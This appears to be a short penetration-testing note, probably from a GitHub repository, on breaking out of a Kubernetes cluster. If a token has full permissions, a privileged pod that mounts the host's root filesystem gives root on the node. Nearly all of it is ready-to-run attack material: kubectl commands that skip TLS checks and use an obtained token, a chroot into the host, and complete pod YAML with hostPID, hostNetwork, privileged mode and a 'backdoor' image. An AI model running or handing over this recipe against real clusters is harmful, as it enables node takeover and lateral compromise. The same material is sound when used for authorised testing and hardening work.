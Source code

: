 # everything-allowed
If you have `**` , everything allowed with kubectl, you can simply mount the host filesystem to a pod and become root on it. Here is the configuration yaml file, note the image has to be one that is available locally, if the machine doesn't have an internet connection.

```text-plain
kubectl --token $(cat token) --insecure-skip-tls-verify --server=https://10.10.50.4:16443 -n default apply -f everything-allowed-exec-pod.yaml
```

```text-plain
kubectl --token $(cat token) --insecure-skip-tls-verify --server=https://10.10.50.4:16443 -n default exec -it everything-allowed-exec-pod -- chroot /host bash
```

```text-plain
apiVersion: v1
kind: Pod
metadata:
  name: everything-allowed-exec-pod
  labels:
    app: pentest
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: everything-allowed-pod
    image: docker.io/vulhub/php:8.1-backdoor
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
  #nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
  volumes:
  - name: noderoot
    hostPath:
      path: /
```